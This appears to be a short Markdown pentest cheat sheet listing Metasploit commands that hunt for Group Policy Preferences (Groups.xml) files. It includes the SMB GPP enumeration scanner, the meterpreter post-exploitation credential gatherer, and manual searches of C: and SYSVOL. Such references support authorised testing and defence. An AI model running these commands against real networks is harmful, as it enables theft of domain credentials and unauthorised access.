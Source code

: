 # Metasploit

## 01 - SMB Port

```
msf > use auxiliary/scanner/smb/smb_enum_gpp

msf auxiliary(scanner/smb/smb_enum_gpp) > options

msf auxiliary(scanner/smb/smb_enum_gpp) > set rhosts <IP>

msf auxiliary(scanner/smb/smb_enum_gpp) > run
```

## 02 - Interactive Session

Running a post exploitation module on a local system.

```
meterpreter > run post/windows/gather/credentials/gpp
```

Running `meterpreter` commands manually can also work.

```
meterpreter > ls -RS "Groups.xml" C:\\

meterpreter > search -d C:\\ -f Groups.xml

meterpreter > ls -RS "Groups.xml" //sysvol/policies/

meterpreter > search -d //sysvol/policies/ -f Groups.xml
```

---
## References

- [ZeroSec: Paving The Way to DA - Complete Post (Pt 1,2 & 3)](https://blog.zsec.uk/paving-2-da-wholeset/)